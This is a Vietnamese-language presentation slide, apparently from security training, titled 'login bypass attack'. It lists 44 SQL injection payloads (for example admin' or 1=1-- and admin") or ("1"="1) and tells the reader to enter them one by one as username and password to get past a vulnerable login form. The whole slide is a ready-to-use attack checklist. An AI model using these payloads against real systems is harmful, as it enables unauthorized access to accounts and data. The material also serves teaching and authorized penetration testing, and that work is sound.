

# TẤN CÔNG VƯỢT QUA ĐĂNG NHẬP
Lần lượt nhập Username và Password bằng giá trị lần lượt trong bảng sau để vượt qua đăng nhập nếu có lỗi SQL Injection
| STT | Cột 1 | Cột 2 | Cột 3 | Cột 4 |
| --- | --- | --- | --- | --- |
| 1 | or 1=1 | admin' or 1=1 | admin" -- | admin" or 1=1# |
| 2 | or 1=1-- | admin' or 1=1-- | admin" # | admin" or 1=1/\* |
| 3 | or 1=1# | admin' or 1=1# | admin"/\* | admin") or ("1"="1 |
| 4 | or 1=1/\* | admin' or 1=1/\* | admin" or "1"="1 | admin") or ("1"="1"-- |
| 5 | admin' -- | admin') or ('1'='1 | admin" or "1"="1"-- | admin") or ("1"="1"# |
| 6 | admin' # | admin') or ('1'='1'-- | admin" or "1"="1"# | admin") or ("1"="1"/\* |
| 7 | admin'/\* | admin') or ('1'='1'# | admin" or "1"="1"/\* | admin") or "1"="1 |
| 8 | admin' or '1'='1 | admin') or ('1'='1'/\* | admin"or 1=1 or ""=" | admin") or "1"="1"-- |
| 9 | admin' or '1'='1'-- | admin') or '1'='1 | admin" or 1=1 | admin") or "1"="1"# |
| 10 | admin' or '1'='1'# | admin') or '1'='1'-- | admin" or 1=1-- | admin") or "1"="1"/\* |
| 11 | admin' or '1'='1'/\* | admin') or '1'='1'# | admin') or '1'='1'/\* | admin'or 1=1 or ''=' |